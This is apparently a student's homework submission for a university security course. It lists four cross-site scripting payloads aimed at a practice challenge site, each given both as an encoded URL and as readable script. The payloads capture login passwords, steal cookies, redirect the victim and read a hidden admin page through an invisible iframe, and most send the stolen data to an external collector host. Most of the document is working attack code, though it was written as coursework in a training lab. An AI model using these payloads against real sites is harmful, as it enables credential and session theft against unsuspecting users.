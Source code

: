 Royce Le
INFO 415
HW3 - Advanced XSS Payloads Homework

------------------------My Token------------------------
token: J7zkgVqCiG
Website: http://r7.io/e/J7zkgVqCiG

------------------------My URL Payloads-----------------
PAYLOAD 1
http://xss-challenges.r7.io/0/login?username=+++%3Cscript%3E++%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+errmsg%5B0%5D.style.display+%3D+%22none%22%3B+window.onload+%3Dfunction+%28%29%7B+++var+el+%3D+document.getElementById%28%22signin-btn%22%29%3B+++if+%28el.addEventListener%29+%7B++++++el.addEventListener%28%22click%22%2C+yourFunction%2C+false%29%3B++%7D+else+%7B++++++el.attachEvent%28%27onclick%27%2C+yourFunction%29%3B++%7D+++%7D%3B++function+yourFunction%28%29%7B++++i+%3D+new+Image%28%29%3B++++i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+password+is%3A+%27+%2B+document.getElementById%28%27login_password%27%29.value+%2B+%27++++%7C%7C%7C+The+username+is%3A+%27+%2B+document.getElementById%28%27login_username%27%29.value%3B++%7D+++%3C%2Fscript%3E&password=ji&user_language=english

PAYLOAD 2
http://xss-challenges.r7.io//0/login?username=%3Cscript%3E+%09window.location.replace%28%27http%3A%2F%2Fstudents.washington.edu%2Froyle%2Finfo415%2FHW3_advXSS%2F%27%29+%3C%2Fscript%3E&password=hi&user_language=englis

PAYLOAD 3
http://xss-challenges.r7.io/0/login?username=%3Cscript%3E+%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+%09prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+%09errmsg%5B0%5D.style.display+%3D+%22none%22%3B+%09window.onload+%3Dfunction+%28%29%7B+%09%09alert%28document.cookie%29%3B+%09%09i+%3D+new+Image%28%29%3B+%09%09i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+%27+%2B+document.cookie%3B+%09%7D%3B+%3C%2Fscript%3E&password=hi&user_language=english

PAYLOAD 4
http://xss-challenges.r7.io/0/login?username=%3Ciframe+src%3D%22http%3A%2F%2Fxss-challenges.r7.io%2Fadmin%2Fsecrets%22+id%3D%22gotcha%22+style%3D%22opacity%3A+0%3B%22+%3E%3C%2Fiframe%3E+%3Cscript%3E+%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+%09prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+%09errmsg%5B0%5D.style.display+%3D+%22none%22%3B+%09window.onload%3Dfunction%28%29+%7B+%09%09var+iframe+%3D+document.getElementById%28%27gotcha%27%29%3B+%09%09var+innerDoc+%3D+iframe.contentDocument+%7C%7C+iframe.contentWindow.document%3B+%09%09i+%3D+new+Image%28%29%3B+%09%09i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+secret+is%3A+%27+%2B+innerDoc.getElementById%28%22secrets%22%29.innerText%3B+%09%09alert%28innerDoc.getElementById%28%22secrets%22%29.innerText%29%3B+%09%7D+%3C%2Fscript%3E&password=hi&user_language=english

------------------------My Code Payloads-----------------
Payload1
    <script>  	var prob = document.getElementsByClassName("problem"); prob[0].style.display = "none";
	var errmsg = document.getElementsByClassName("error-message"); errmsg[0].style.display = "none"; window.onload =function (){   var el = document.getElementById("signin-btn");   if (el.addEventListener) {      el.addEventListener("click", yourFunction, false);  } else {      el.attachEvent('onclick', yourFunction);  }   };  function yourFunction(){    i = new Image();    i.src='http://r7.io/e/J7zkgVqCiG?s=The password is: ' + document.getElementById('login_password').value + '    ||| The username is: ' + document.getElementById('login_username').value;  }   </script>

Payload2
<script>
	window.location.replace('http://students.washington.edu/royle/info415/HW3_advXSS/')
</script>

Payload3
<script>
	var prob = document.getElementsByClassName("problem");
	prob[0].style.display = "none";
	var errmsg = document.getElementsByClassName("error-message");
	errmsg[0].style.display = "none";
	window.onload =function (){
		alert(document.cookie);
		i = new Image();
		i.src='http://r7.io/e/J7zkgVqCiG?s=The ' + document.cookie;
	};
</script>

Payload4
<iframe src="http://xss-challenges.r7.io/admin/secrets" id="gotcha" style="opacity: 0;" ></iframe>
<script>
	var prob = document.getElementsByClassName("problem");
	prob[0].style.display = "none";
	var errmsg = document.getElementsByClassName("error-message");
	errmsg[0].style.display = "none";
	window.onload=function() {
		var iframe = document.getElementById('gotcha');
		var innerDoc = iframe.contentDocument || iframe.contentWindow.document;
		i = new Image();
		i.src='http://r7.io/e/J7zkgVqCiG?s=The secret is: ' + innerDoc.getElementById("secrets").innerText;
		alert(innerDoc.getElementById("secrets").innerText);
	}
</script>

------------------------My Resources-----------------
*How to redirect w/ Javascript
	*http://stackoverflow.com/questions/4744751/how-do-i-redirect-with-javascript
	*http://stackoverflow.com/questions/9800310/add-event-handler-to-html-element-using-javascript
*How to add event handler to html element
	*http://stackoverflow.com/questions/9800310/add-event-handler-to-html-element-using-javascript
*How to change visibility
	*https://www.w3schools.com/jsref/prop_style_visibility.asp
*How to get an element from w/in an iFrame
	*http://stackoverflow.com/questions/1088544/javascript-get-element-from-within-an-iframe
	*http://stackoverflow.com/questions/16755347/getting-contents-of-iframe-with-pure-javascript
*How to display text from an element
	*https://www.w3schools.com/jsref/prop_html_innerhtml.asp
*How to use an iFrame
	*https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#IFRAME

Evan helped me with figuring out how to upload my website onto our student server! We also figured out how to do window.location.replace() rogether. Kristina helped me figured out how to get a handle on number 4.
